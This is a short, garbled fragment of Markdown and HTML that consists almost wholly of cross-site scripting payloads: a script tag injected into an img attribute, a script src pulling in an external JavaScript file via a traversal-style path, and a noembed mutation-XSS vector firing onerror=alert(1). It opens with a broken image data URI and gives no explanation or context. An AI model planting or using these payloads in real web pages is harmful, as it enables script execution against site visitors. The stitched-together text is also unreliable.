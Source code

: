 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" value=”"<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;"” width="alert(1)">

<noembed><img title="</noembed><img src onerror=alert(1)>"></noembed>
